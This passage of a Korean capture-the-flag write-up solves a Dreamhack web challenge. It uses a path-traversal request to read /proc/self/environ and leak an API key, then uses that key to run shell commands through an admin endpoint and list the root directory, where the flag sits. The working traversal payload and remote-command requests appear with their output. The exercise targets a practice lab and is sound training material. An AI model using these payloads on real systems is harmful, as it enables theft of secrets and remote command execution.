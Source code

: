 ```jsx
PYTHON_GET_PIP_URL=https://github.com/pypa/get-pip/raw/d781367b97acf0ece7e9e304bf281e99b618bf10/public/get-pip.py
LISTEN_PORT=80
HOSTNAME=localhost
PWD=/app
STATIC_INDEX=0
```

[`http://host3.dreamhack.games:10365/file?path=../../../../../../../../proc/self/environ`](http://host3.dreamhack.games:10365/file?path=../../../../../../../../proc/self/environ) 를 통해서 환경변수 값을 출력해본 결과 API_KEY 값은 `d22cb18e86fc9e23996650150461c9f794ad3a4f` 임을 확인할 수 있다. 이제 admin 페이지에서 원하는 명령어를 실행 시킬수 있다.

![현재 위치 ls 수행.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/5cb6571c-0105-45f4-8ffc-1ea0e38d6df9/%ED%98%84%EC%9E%AC_%EC%9C%84%EC%B9%98_ls_%EC%88%98%ED%96%89.png)

```jsx
__pycache__ files main.py nginx.conf prestart.sh requirements.txt uwsgi.ini
```

[`http://host3.dreamhack.games:10365/admin?API_KEY=d22cb18e86fc9e23996650150461c9f794ad3a4f&&cmd=ls`](http://host3.dreamhack.games:10365/admin?API_KEY=d22cb18e86fc9e23996650150461c9f794ad3a4f&&cmd=ls) 를 이용해서 ls 명령어를 실행시켜본 결과 flag 파일이 존재하지 않는 것을 확인했다.. root 페이지부터 찾아보자.

![flag 파일이 루트에 존재.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/43ecd1c9-6256-40e0-9754-a1e3d7a2c3f9/flag_%ED%8C%8C%EC%9D%BC%EC%9D%B4_%EB%A3%A8%ED%8A%B8%EC%97%90_%EC%A1%B4%EC%9E%AC.png)

```jsx
total 124 
dr-xr-xr-x 1 root root 4096 Dec 5 17:01 . 
dr-xr-xr-x 1 root root 4096 Dec 5 17:01 .. 
drwxr-xr-x 1 root root 4096 Dec 5 17:01 app 
drwxr-xr-x 2 root root 4096 Oct 12 2021 bin 
drwxr-xr-x 2 root root 4096 Oct 3 2021 boot 
drwxr-xr-x 8 root root 2540 Dec 5 17:01 dev 
-rwxr-xr-x 1 root root 1936 Oct 26 2021 entrypoint.sh 
drwxr-xr-x 1 root root 4096 Dec 5 17:01 etc 
---x--x--x 1 root root 16608 Jan 26 2022 flag 
drwxr-xr-x 3 root root 4096 Jan 26 2022 home 
-rw-r--r-- 1 root root 3452 Oct 26 2021 install-nginx-debian.sh 
drwxr-xr-x 8 root root 4096 Oct 12 2021 lib 
drwxr-xr-x 2 root root 4096 Oct 11 2021 lib64 
drwxr-xr-x 2 root root 4096 Oct 11 2021 media 
drwxr-xr-x 2 root root 4096 Oct 11 2021 mnt 
drwxr-xr-x 2 root root 4096 Oct 11 2021 opt 
dr-xr-xr-x 109 root root 0 Dec 5 17:01 proc 
drwx------ 3 root root 4096 Jan 26 2022 root 
drwxr-xr-x 1 root root 4096 Dec 5 17:01 run 
drwxr-xr-x 2 root root 4096 Oct 12 2021 sbin 
drwxr-xr-x 2 root root 4096 Oct 11 2021 srv 
-rwxr-xr-x 1 root root 404 Oct 26 2021 start.sh 
dr-xr-xr-x 11 root root 0 Dec 5 17:01 sys 
drwxrwxrwt 1 root root 4096 Dec 5 17:01 tmp 
drwxr-xr-x 1 root root 4096 Oct 11 2021 usr 
-rwxr-xr-x 1 root root 3146 Oct 26 2021 uwsgi-nginx-entrypoint.sh 
drwxr-xr-x 1 root root 4096 Oct 11 2021 var
```
